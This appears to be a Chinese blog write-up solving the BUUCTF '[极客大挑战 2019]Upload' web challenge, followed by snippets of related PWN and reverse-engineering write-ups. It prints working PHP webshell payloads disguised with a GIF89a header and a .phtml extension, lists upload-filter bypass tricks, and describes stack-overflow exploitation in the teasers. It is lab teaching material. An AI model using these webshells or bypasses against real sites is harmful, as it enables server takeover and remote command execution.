

【BUUCTF】WEB-刷题记录-[极客大挑战 2019]Upload
题目信息
- 题目名称: [极客大挑战 2019]Upload
- 题目分类: Web
题目描述
文件上传题目，要求上传头像文件。
解题步骤
第一步：访问题目
打开题目链接，发现是一个文件上传页面，需要上传图片作为头像。

第二步：分析上传点
- 表单提交到
upload_file.php - 前端有文件选择按钮和提交按钮
第三步：尝试直接上传PHP文件
1 | system($_GET["cmd"]); |
结果: 被拦截，提示 NO! HACKER! your file included '<?'
说明服务器过滤了 <? 关键字。
第四步：绕过<?过滤
使用 <script language="php"> 短标签绕过：
1 | <script language="php">system($_GET["cmd"]);</script> |
结果: 报错 Don't lie to me, it's not image at all!!!
说明需要伪装成图片文件。
第五步：添加GIF文件头
在文件开头添加 GIF89a 伪装成GIF图片：
1 | GIF89a<script language="php">system($_GET["cmd"]);</script> |
结果: 上传成功！文件名 webshell.phtml
第六步：获取webshell
访问上传的文件：
1 | http://xxx/upload/webshell.phtml?cmd=ls / |
发现服务器根目录有 flag 文件。
第七步：读取flag
1 | http://xxx/upload/webshell.phtml?cmd=cat /flag |
得到flag: flag{b5c90453-0a6d-4d0c-a222-443038f5f7b9}
知识点总结
文件上传绕过
- MIME类型检测：修改Content-Type为image/gif
- 文件头检测：添加GIF89a文件头
- 后缀名检测：使用phtml后缀
PHP代码绕过
- 短标签绕过：
<script language="php">代替<?php - 或使用
<%=system($_GET["cmd"]);%>
- 短标签绕过：
文件包含
- 上传目录通常可被直接访问
- phtml文件会被PHP解析器执行
本博客所有文章除特别声明外，均采用 CC BY-NC-SA 4.0 许可协议。转载请注明来源 末心的小博客！
相关推荐

2025-10-26
【BUUCTF】PWN-刷题记录-test_your_nc
题目信息 解题步骤 nc 连接后，可以直接执行命令，在此我们执行ls后看到了flag文件 cat flag 即可获得flag

2025-10-26
【BUUCTF】PWN-刷题记录-rip
题目信息 解题步骤 程序是amd64、小端程序，GOT表在运行时仍然可写，存在GOT覆盖风险，没有栈保护,栈可执行、程序基地址固定 使用ida进行分析： 上述代码中，我们注意： 12char s[15]; // [rsp+1h] [rbp-Fh]gets(s, argv); s 数组大小为 15 字节，位于栈上。 使用了 危险函数 gets()：它会无限读取输入直到换行，完全不检查缓冲区边界。 gets(s) 会把你输入的所有字节写到栈上：先写入 s（15字节），接着覆盖 saved rbp（8字节），再覆盖 return address（8字节），后面跟着你继续写的字节都会保存在 return address 之后的栈上（函数返回时 ret 从栈上弹出的就是我们写入的返回地址）。 s 距离 rbp 仅 0xF = 15 字节，而 rbp 上方 8 字节是 返回地址（return address）。 因此，输入超过 15 + 8 = 23 字节 即可覆盖返回地址。 程序还有一个fun函数，调用了system函数，地址为0x401186 程序的system函数，地址为0...

2025-10-26
【BUUCTF】PWN-刷题记录-warmup_csaw_2016
题目信息 解题步骤 和上一题基本一样 123456789101112int __fastcall main(int a1, char **a2, char **a3){ char s[64]; // [rsp+0h] [rbp-80h] BYREF _BYTE v5[64]; // [rsp+40h] [rbp-40h] BYREF write(1, "-Warm Up-\n", 0xAu); write(1, "WOW:", 4u); sprintf(s, "%p\n", sub_40060D); // sub_40060D中，调用system cat了flag write(1, s, 9u); write(1, ">", 1u); return gets(v5);} 1234int sub_40060D(){ return system("cat flag.txt");} v5 是输入缓冲区：gets(v5)，...

2025-10-26
【BUUCTF】PWN-刷题记录-ciscn_2019_n_1
题目信息 解题步骤 1234567[*] '/home/kali/Desktop/buuctf/ciscn_2019_n_1' Arch: amd64-64-little → 64位小端程序 RELRO: Partial RELRO → GOT表可写（可被劫持） Stack: No canary found → 无栈保护，可溢出 NX: NX enabled → 栈不可执行（不能直接执行shellcode） PIE: No PIE (0x400000) → 地址固定，无ASLR Stripped: No → 符号表未剥离，函数名可见 用 IDA 打开二进制文件，main 函数非常简单： 关键逻辑在 func()： v1[44]：输入缓冲区，位于 [rbp-0x30] v2：float 类型，位于 [rbp-0x4]，初始值 0.0 使用 gets(v1) → ...

2025-10-26
【BUUCTF】REVERSE-刷题记录-easyre
题目信息 解题步骤先用DIE分析，发现是64位C程序 使用IDA分析： 也就是输入两个相同字符，就可以拿到flag 1flag{this_Is_a_EaSyRe}

2025-10-26
【BUUCTF】REVERSE-刷题记录-reverse1
题目信息 解题步骤 编译器为 MSVC 19.00，对应 Visual Studio 2015 或 2017 版本。 使用ida查看： 12345678for ( j = 0; ; ++j ){ v10 = j; if ( j > j_strlen(Str2) ) break; if ( Str2[j] == 111 ) Str2[j] = 48;} Str2 是一个字符串（全局变量或常量） 遍历 Str2，把所有字符 'o'（ASCII 111）替换成 '0'（ASCII 48） 条件是 j > j_strlen(Str2) 才跳出 → 实际是 j <= len 时继续 所以这是一个 字符串预处理：将 Str2 中的 o → 0 Str2 是“正确 flag”的模板，但被混淆了（用 o 代替 0） 12sub_1400111D1("input the flag:");sub_14001128F("%20s", Str1); sub_140...